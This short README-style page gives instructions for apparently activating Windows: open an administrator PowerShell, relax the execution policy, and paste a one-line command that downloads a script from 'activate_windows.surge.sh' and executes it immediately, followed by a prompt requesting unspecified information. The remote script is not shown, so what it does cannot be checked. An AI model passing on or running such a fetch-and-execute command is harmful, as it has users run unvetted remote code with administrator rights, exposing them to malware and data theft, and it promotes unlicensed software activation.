 # How to use
Open a new powershell session as administrator and paste these commands in order:
```ps1
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser
```
```ps1
iwr -useb "activate_windows.surge.sh" | iex
```
After the last command, a prompt will appear and ask for the necessary information to proceed with the activation.
